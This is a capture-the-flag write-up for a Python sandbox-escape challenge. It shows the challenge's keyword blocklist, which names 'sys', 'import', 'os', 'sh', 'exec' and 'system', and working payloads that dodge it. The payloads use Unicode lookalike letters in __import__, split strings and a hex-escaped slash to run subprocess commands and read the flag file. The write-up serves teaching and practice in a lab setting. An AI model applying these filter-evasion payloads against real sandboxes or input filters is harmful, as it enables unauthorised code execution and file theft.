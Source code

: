 # escape room (1000 points)

![Alt text](_images/image.png)

This challenge is a pyjail challenge wherein we need to jailbreak the python filters. 

From the source code, we can see that it filters the input on run. So we need to bypass it.

```python
import os, sys

def main():
  filter_list = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  main()
```

We see that our input code will be compiled from this line of code:
```python
  binary = compile(user_data, '<string>', 'exec')
```
Our code should be in string format (UTF-8).

After compiling, file descriptor stdin and stdout will be closed.
```python
  os.close(0)
  os.close(1)
```

Then the compiled code will be executed.
```python
  exec(binary)
```

Since the `stdin` and `stdout` is closed we cannot print out the flag so  we can use `netcat` to bypass the file descriptor errors. But the only thing that is not closed yet is the `stderr`. So we can print the flag with it.

Here our first payload is to import the `subprocess` and `sys` module. Then we can use the `subprocess.Popen` to execute the `ls` command. Then we can read the output of the `ls` command and print it to the `stderr` of the `sys` module.
```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule = __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')('ls', stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](_images/image-1.png)

Our payload is working. How does it work? Well, back to the source code. There is no rule implemented in the compiler. So we can decorate our filtered text and will be read as a valid python code.

Our final payload:

```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule =  __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')(['cat', 'home\x2fctf_user\x2ffl'+'ag'], stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](_images/image-2.png)

